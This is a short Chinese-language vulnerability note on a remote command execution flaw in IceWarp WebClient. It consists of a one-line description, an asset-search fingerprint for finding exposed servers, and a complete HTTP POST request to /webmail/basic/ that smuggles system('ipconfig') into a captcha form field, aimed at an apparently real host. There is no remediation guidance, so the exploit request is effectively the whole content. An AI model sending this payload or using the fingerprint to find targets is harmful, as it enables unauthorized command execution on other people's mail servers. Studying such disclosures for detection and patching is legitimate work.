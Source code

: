 # IceWarp WebClient basic 远程命令执行漏洞

# IceWarp WebClient basic 远程命令执行漏洞

## 漏洞描述

IceWarp WebClient 存在远程命令执行漏洞，攻击者构造特殊的请求即可远程命令执行

## 漏洞影响 

```
IceWarp WebClient
```

## 网络测绘

```
app="IceWarp-公司产品"
```

## 漏洞复现

登录页面如下

![](/images/202202101850566.png)



漏洞请求包为

```plain
POST /webmail/basic/ HTTP/1.1
Host: sd.sahadharawat.com
Content-Type: application/x-www-form-urlencoded
Cookie: use_cookies=1
Content-Length: 43

_dlg[captcha][target]=system(\'ipconfig\')\
```



![](/images/202202101851258.png)

